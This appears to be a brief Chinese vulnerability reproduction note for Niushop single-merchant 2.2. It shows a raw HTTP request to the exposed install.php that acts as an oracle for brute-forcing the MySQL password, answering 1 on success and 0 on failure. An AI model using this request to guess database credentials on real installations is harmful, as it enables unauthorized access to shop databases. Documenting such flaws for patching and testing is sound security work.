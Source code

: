 Niushop 单商户 2.2 爆破MySQL密码
================================

一、漏洞简介
------------

二、漏洞影响
------------

Version：单商户 2.2

三、复现过程
------------

### 安装爆破MySQL密码

    GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
    Host: 127.0.0.1
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
    Referer: http://127.0.0.1/niushop/install.php?refresh
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
    Cookie: action=db
    Connection: close

![](./resource/Niushop单商户2.2爆破MySQL密码/media/rId25.jpg)

爆破成功返回1，密码错误返回0

参考链接
--------

> https://y4er.com/post/niushop-getshell/
